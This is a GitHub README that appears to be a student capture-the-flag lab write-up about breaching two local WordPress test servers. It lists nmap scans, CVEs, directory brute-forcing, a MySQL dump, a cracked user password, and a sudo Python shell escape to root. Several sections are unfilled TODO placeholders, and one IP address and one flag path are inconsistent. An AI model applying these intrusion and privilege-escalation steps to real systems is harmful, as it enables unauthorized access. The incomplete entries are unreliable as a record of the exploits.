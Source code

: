 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Topology%20Final%20Project.png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/service.html)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1
- flag1.txt: 9bbcb33e11b80be759c4e844862482
Exploit Used: 
TODO: Identify the exploit used.
TODO: Include the command run.
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
Exploit Used
TODO: dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
TODO: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.110
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
Exploit Used
TODO: exposed root password and then uncovered hashes via mysql
TODO: mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
- flag4.txt: 715dea6c055b9fe3337544932f2941ce
Exploit Used
- john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
- ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
Exploit Used 
TODO: dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
TODO: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag2.txt: 
Exploit Used
TODO: Identify the exploit used.
TODO: Include the command run.
flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
Exploit Used
TODO: dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
TODO: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag4.txt: 
Exploit Used
TODO: Identify the exploit used.
TODO: Include the command run.

